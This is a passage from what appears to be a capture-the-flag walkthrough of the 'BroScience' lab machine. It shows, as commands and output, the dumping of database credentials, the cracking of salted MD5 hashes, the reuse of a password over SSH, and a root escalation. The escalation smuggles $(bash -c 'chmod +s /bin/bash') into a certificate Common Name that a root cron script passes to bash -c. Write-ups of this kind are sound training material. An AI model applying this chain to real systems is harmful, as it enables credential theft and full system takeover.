udp   UNCONN 0      0               [::]:54871         [::]:*          
udp   UNCONN 0      0               [::]:5353          [::]:*          
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      244        127.0.0.1:5432       0.0.0.0:*          
tcp   LISTEN 0      511                *:80               *:*          
tcp   LISTEN 0      128             [::]:22            [::]:*          
tcp   LISTEN 0      511                *:443              *:*  
```

Because the database was only accessible locally, the web shell was the right place to query it. The application's `includes/db_connect.php` file exposed the database name, username, password, and the salt used for application password hashes:

```bash
www-data@broscience:/var/www/html$ cat includes/db_connect.php 
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
I connected to PostgreSQL with these credentials and inspected the `users` table.

```bash
www-data@broscience:/var/www/html$ psql -h 127.0.0.1 -U dbuser -p 5432 -d broscience
Password for user dbuser: 
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience=> 
```

The table contained several MD5-looking password values:


```sql
broscience=> select * from users;
 id |   username    |             password             |            email             |         activation_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+----------------------------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0T4Q4NUQ9PNpLHf | t            | t        | 2019-03-07 02:02:22.226763-05
  2 | bill          | 13edad4932da9dbb57d9cd15b66ed104 | bill@broscience.htb          | WLHPyj7NDRx10BYHRJPPgnRAYlMPTkp4 | t            | f        | 2019-05-07 03:34:44.127644-04
  3 | michael       | bd3dad50e2d578ecba87d5fa15ca5f85 | michael@broscience.htb       | zgXkcmKip9J5MwJjt8SZt5datKVri9n3 | t            | f        | 2020-10-01 04:12:34.732872-04
  4 | john          | a7eed23a7be6fe0d765197b1027453fe | john@broscience.htb          | oGKsaSbjocXb3jwmnx5CmQLEjwZwESt6 | t            | f        | 2021-09-21 11:45:53.118482-04
  5 | dmytro        | 5d15340bded5b9395d5d14b9c21bc82b | dmytro@broscience.htb        | 43p9iHX6cWjr9YhaUNtWxEBNtpneNMYm | t            | f        | 2021-08-13 10:34:36.226763-04
(5 rows)
```
The application salt was `NaCl`, so I formatted each candidate as `hash:salt` for Hashcat:

```text
15657792073e8a843d4f91fc403454e1:NaCl
13edad4932da9dbb57d9cd15b66ed104:NaCl
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl
a7eed23a7be6fe0d765197b1027453fe:NaCl
5d15340bded5b9395d5d14b9c21bc82b:NaCl
```
Hashcat mode 20 cracks salted MD5 in the form `md5(salt.password)`. Running it against `rockyou.txt` recovered three passwords:

```bash
hashcat -m 20 hashes.txt /usr/share/seclists/rockyou.txt
```

 ```text
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym    
5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest     
bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples 
```

## Lateral Movement

### Shell as `bill`

Before testing the cracked passwords, I checked which local accounts had interactive shells.

```bash
www-data@broscience:/var/www/html$ cat /etc/passwd | grep sh 
root:x:0:0:root:/root:/bin/bash
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

Only `bill` and `postgres` were plausible login targets. I placed those usernames and the three recovered passwords in separate files, then used NetExec to test the small set against SSH.

```bash
┌─[tr3m0x@parrot]─[~/htb/linux/BroScience]
└──╼ $nxc ssh broscience.htb -u users.txt -p pwds.txt 
SSH         10.129.228.129  22     broscience.htb   [*] SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
SSH         10.129.228.129  22     broscience.htb   [+] bill:iluvhorsesandgym  Linux - Shell access!
```
The password `iluvhorsesandgym`, recovered from the `bill` database record, was reused for the local SSH account and provided a stable shell as `bill`.

## Privilege Escalation

### Root Cron Job Enumeration

Manual enumeration did not reveal an obvious escalation path, so I transferred `pspy` to observe processes without requiring root privileges. It exposed a root cron job that periodically passed a certificate from Bill's writable `~/Certs` directory to `/opt/renew_cert.sh`:

```text
2026/09/04 11:20:50 CMD: UID=0     PID=1      | /sbin/init 
2026/09/04 11:22:01 CMD: UID=0     PID=63714  | /usr/sbin/CRON -f 
2026/09/04 11:22:01 CMD: UID=0     PID=63715  | /usr/sbin/CRON -f 
2026/09/04 11:22:01 CMD: UID=0     PID=63716  | /bin/sh -c /root/cron.sh 
2026/09/04 11:22:01 CMD: UID=0     PID=63717  | /bin/bash /root/cron.sh 
2026/09/04 11:22:01 CMD: UID=0     PID=63718  | /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt 
```
The key process was `/opt/renew_cert.sh`, which executed as UID 0. I inspected the script to understand how it handled Bill-controlled certificate data.

### Certificate Common Name Command Injection

```bash
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
    fi

    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)

    country=$(echo $subject | grep -Eo 'C = .{2}')
    state=$(echo $subject | grep -Eo 'ST = .*,')
    locality=$(echo $subject | grep -Eo 'L = .*,')
    organization=$(echo $subject | grep -Eo 'O = .*,')
    organizationUnit=$(echo $subject | grep -Eo 'OU = .*,')
    commonName=$(echo $subject | grep -Eo 'CN = .*,?')
    emailAddress=$(openssl x509 -in $1 -noout -email)

    country=${country:4}
    state=$(echo ${state:5} | awk -F, '{print $1}')
    locality=$(echo ${locality:3} | awk -F, '{print $1}')
    organization=$(echo ${organization:4} | awk -F, '{print $1}')
    organizationUnit=$(echo ${organizationUnit:5} | awk -F, '{print $1}')
    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')

    echo $subject;
    echo "";
    echo "Country     => $country";
    echo "State       => $state";
    echo "Locality    => $locality";
    echo "Org Name    => $organization";
    echo "Org Unit    => $organizationUnit";
    echo "Common Name => $commonName";
    echo "Email       => $emailAddress";

    echo -e "\nGenerating certificate...";
    openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
    $state
    $locality
    $organization
    $organizationUnit
    $commonName
    $emailAddress
    " 2>/dev/null

    /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
else
    echo "File doesn't exist"
    exit 1;
fi
```

The script extracts the certificate subject fields, including the Common Name, and eventually interpolates `$commonName` into a command executed by `/bin/bash -c`:

```bash
/bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"
```

Because the certificate is stored in Bill's writable directory, its subject is attacker-controlled. More importantly, command substitution inside `$commonName` is evaluated by the new Bash process. I generated a certificate whose Common Name was `$(bash -c 'chmod +s /bin/bash')`. The one-day validity also causes `openssl -checkend 86400` to treat it as due for renewal.

```bash
bill@broscience:/tmp$ openssl req -x509 -sha256 -nodes -days 1 -newkey rsa:4096 -keyout /dev/null -out broscience.crt
Generating a RSA private key
............++++
........................................................................................++++
writing new private key to '/dev/null'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:                                
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(bash -c 'chmod +s /bin/bash')     
Email Address []:
bill@broscience:/tmp$ mv broscience.crt /home/bill/Certs/broscience.crt
```

After moving the malicious certificate into `/home/bill/Certs/broscience.crt`, I waited for the scheduled task to process it. The injected command ran as root and set the SUID bit on `/bin/bash`. Running Bash with `-p` preserved the effective UID and produced a root shell.

```bash
bill@broscience:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
bill@broscience:/tmp$ /bin/bash -p 
bash-5.1# id
uid=1000(bill) gid=1000(bill) euid=0(root) egid=0(root) groups=0(root),1000(bill)
```